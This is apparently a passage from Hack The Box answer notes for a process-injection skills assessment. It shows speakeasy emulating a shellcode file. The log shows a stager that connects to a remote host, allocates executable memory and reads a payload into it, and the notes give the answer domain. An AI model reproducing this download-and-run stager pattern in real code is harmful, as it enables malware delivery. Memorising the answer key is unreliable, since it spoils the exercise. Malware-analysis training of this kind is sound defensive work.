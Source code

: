 ![[HTB Solutions/Others/z. images/b79f7b4b1ae146bdd6816f4a17e0eb15_MD5.jpg]]

![[HTB Solutions/Others/z. images/e72d549f9186a6766b33a676af6c58a6_MD5.jpg]]

Students will open Command Prompt, navigate to the `Desktop`, and use `speakeasy` to analyze the shellcode and find the use of the `LoadLibraryA` function to load the `wininet` library and notice in the second parameter the domain used in the [InternetConnectionA](https://learn.microsoft.com/en-us/windows/win32/api/Wininet/nf-wininet-internetconnecta) function:

Code: cmd

```cmd
cd Desktop\
speakeasy -t first-shellcode.bin -r -a x64
```

```
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd Desktop\

C:\Users\Administrator\Desktop>speakeasy -t first-shellcode.bin -r -a x64

* exec: shellcode
0x10f3: 'kernel32.LoadLibraryA("wininet")' -> 0x7bc00000
0x1188: 'wininet.InternetOpenA("Mozilla/5.0 (Macintosh; Intel Mac OS X 14_7_2) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.1.15", 0x0, 0x0, 0x0, 0x0)' -> 0x20
0x11bc: 'wininet.InternetConnectA(0x20, "{hidden}", 0x115c, 0x0, 0x0, 0x3, 0x0, 0x0)' -> 0x24
0x1215: 'wininet.HttpOpenRequestA(0x24, 0x0, "/hi1E4qUUT4BE8kXwI0EIDwtBzVqJHgRxTs15LzE6ratdYEPyI", 0x0, 0x0, 0x0, "INTERNET_FLAG_DONT_CACHE | INTERNET_FLAG_IGNORE_CERT_CN_INVALID | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_NO_AUTO_REDIRECT | INTERNET_FLAG_NO_COOKIES | INTERNET_FLAG_NO_UI | INTERNET_FLAG_RELOAD | INTERNET_FLAG_SECURE", 0x0)' -> 0x28
0x123a: 'wininet.InternetSetOptionA(0x28, 0x1f, 0x1203eb0, 0x4)' -> 0x1
0x1253: 'wininet.HttpSendRequestA(0x28, 0x0, 0x0, 0x0, 0x0)' -> 0x1
0x1294: 'kernel32.VirtualAlloc(0x0, 0x400000, 0x1000, "PAGE_EXECUTE_READWRITE")' -> 0x450000
0x12b7: 'wininet.InternetReadFile(0x28, 0x450000, 0x2000, 0x1203e30)' -> 0x1
0x12b7: 'wininet.InternetReadFile(0x28, 0x451000, 0x2000, 0x1203e30)' -> 0x1
0x450012: Unhandled interrupt: intnum=0x3
0x450012: shellcode: Caught error: unhandled_interrupt
* Finished emulating
```

Answer: `airbusocean.com`

# Process Injection - Skills Assessment

## Question 3

### "Another injection technique is used to inject a different shellcode. Identify the domain name contained in the shellcode that originates from a function other than the main function. Type the domain name as your answer."
